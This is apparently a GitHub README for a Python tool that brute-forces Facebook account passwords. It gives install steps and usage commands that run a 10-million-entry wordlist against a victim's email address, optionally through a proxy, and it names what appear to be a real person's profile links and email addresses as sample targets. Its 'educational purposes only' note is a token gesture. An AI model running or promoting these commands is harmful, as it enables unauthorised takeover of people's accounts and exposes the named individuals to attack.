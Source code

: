 # Facebook_hack

![PicsArt_22-06-08_16-34-50-148](https://user-images.githubusercontent.com/70594016/172602116-20012d77-f4c2-45a6-a5fb-391f683c0f05.png)
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://bit.ly/3PV3S3r)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/hackerxphantom/Facebook_hack.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**: https://www.facebook.com/people/Julie-Uyen/100088283405582
  
  - **Brute Force On Facebook Account Without proxy**: https://www.facebook.com/people/Julie-Uyen/100088283405582
  
  * **Command**: python facebook_hack.py -t uyencan89@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**: https://www.facebook.com/people/Julie-Uyen/100088283405582
   
    * **Command**: python facebook_hack.py -t uyencan90@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**: uyencan90@gmail.com
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/zuck
  
